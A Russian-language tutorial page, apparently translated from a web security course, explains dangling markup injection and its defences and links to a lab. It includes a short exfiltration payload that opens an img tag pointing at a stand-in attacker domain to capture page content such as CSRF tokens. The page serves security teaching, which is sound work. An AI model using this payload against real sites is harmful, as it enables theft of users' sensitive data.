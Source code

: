 Висячая инъекция разметки
В этом разделе мы объясним, как происходит внедрение висячей разметки, как работает типичный эксплойт и как предотвратить атаки с использованием висячей разметки.

Что такое внедрение висячей разметки?
Внедрение висячей разметки — это метод захвата данных между доменами в ситуациях, когда полноценная атака с использованием межсайтового скриптинга невозможна.

Как предотвратить атаки с использованием висячей разметки
Вы можете предотвратить атаки с использованием висячей разметки, используя те же общие меры защиты, которые применяются для предотвращения межсайтового скриптинга , путем кодирования выходных данных и проверки входных данных по прибытии.

Предположим, что приложение небезопасным способом внедряет в свои ответы данные, контролируемые злоумышленником:

<input type="text" name="input" value="CONTROLLABLE DATA HERE
Предположим также, что приложение не фильтрует и не экранирует символы >или ". Злоумышленник может использовать следующий синтаксис, чтобы выйти из кавычек значения атрибута и окружающего тега и вернуться в контекст HTML:

">
В этой ситуации злоумышленник, естественно, попытается выполнить XSS. Но предположим, что обычная атака XSS невозможна из-за входных фильтров, политики безопасности контента или других препятствий. Здесь все еще может быть возможно осуществить атаку с внедрением висячей разметки, используя полезную нагрузку, подобную следующей:

"><img src='//attacker-website.com?
Эта полезная нагрузка создает imgтег и определяет начало атрибута, srcсодержащего URL на сервере злоумышленника. Обратите внимание, что полезная нагрузка злоумышленника не закрывает атрибут src, который остается "висящим". Когда браузер анализирует ответ, он будет смотреть вперед, пока не встретит одинарную кавычку, чтобы завершить атрибут. Все до этого символа будет рассматриваться как часть URL и будет отправлено на сервер злоумышленника в строке запроса URL. Любые не буквенно-цифровые символы, включая переносы строк, будут закодированы в URL.

Последствием атаки является то, что злоумышленник может перехватить часть ответа приложения после точки инъекции, которая может содержать конфиденциальные данные. В зависимости от функциональности приложения это могут быть токены CSRF, сообщения электронной почты или финансовые данные.

Любой атрибут, который делает внешний запрос, может быть использован для висячей разметки.

Эту следующую лабораторную работу сложно решить, поскольку все внешние запросы заблокированы. Однако есть определенные теги, которые позволяют вам хранить данные и извлекать их с внешнего сервера позже. Решение этой лабораторной работы может потребовать взаимодействия с пользователем.

[![Open Lab](https://img.shields.io/badge/Open-Lab-blue)](01.%20%28Эксперт%29%20Отраженный%20XSS-удар,%20защищенный%20очень%20строгим%20CSP,%20с%20атакой%20на%20висячую%20разметку.md)

Вы также можете смягчить некоторые атаки с использованием висячей разметки, используя политику безопасности контента (CSP). Например, вы можете предотвратить некоторые (но не все) атаки, используя политику, которая запрещает тегам, например, imgзагружать внешние ресурсы.

Примечание
Браузер Chrome решил бороться с атаками на висячую разметку, предотвращая imgопределение тегами URL-адресов, содержащих необработанные символы, такие как угловые скобки и символы новой строки. Это предотвратит атаки, поскольку данные, которые в противном случае были бы захвачены, как правило, будут содержать эти необработанные символы, поэтому атака блокируется.
